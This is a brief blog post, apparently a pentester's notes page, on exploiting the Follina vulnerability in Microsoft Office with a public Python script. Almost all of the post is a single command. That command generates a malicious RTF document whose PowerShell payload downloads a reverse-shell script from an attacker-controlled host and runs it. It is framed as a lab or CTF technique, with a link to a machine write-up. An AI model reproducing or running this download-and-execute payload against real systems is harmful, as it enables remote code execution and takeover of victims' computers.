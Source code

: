 ```yaml
---
description: >-
  Follina Exploitation
title: Follina Exploitation            # Add title here
date: 2023-01-24 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Follina Exploitation]                     # Change Templates to Writeup
tags: [exploitation, follina exploitation]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

The following exploit [Follina](https://github.com/chvancooten/follina.py) works pretty well, all you need to do is clone the repository and execute it as follows, the "-c" is the command to execute, it can be a cmd or a powershell intruction:
```bash
python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/reverse.ps1')"
```
Examples:
[Outdated](https://shuciran.github.io/posts/Outdated/#fnref:follina)